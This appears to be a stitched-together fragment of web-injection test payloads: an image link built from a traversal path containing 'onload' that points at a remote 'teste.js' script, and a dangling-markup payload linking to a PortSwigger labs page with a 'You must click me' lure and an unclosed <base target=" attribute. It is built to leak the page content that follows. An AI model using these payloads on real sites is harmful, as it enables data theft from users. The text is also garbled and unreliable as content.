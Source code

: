 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="
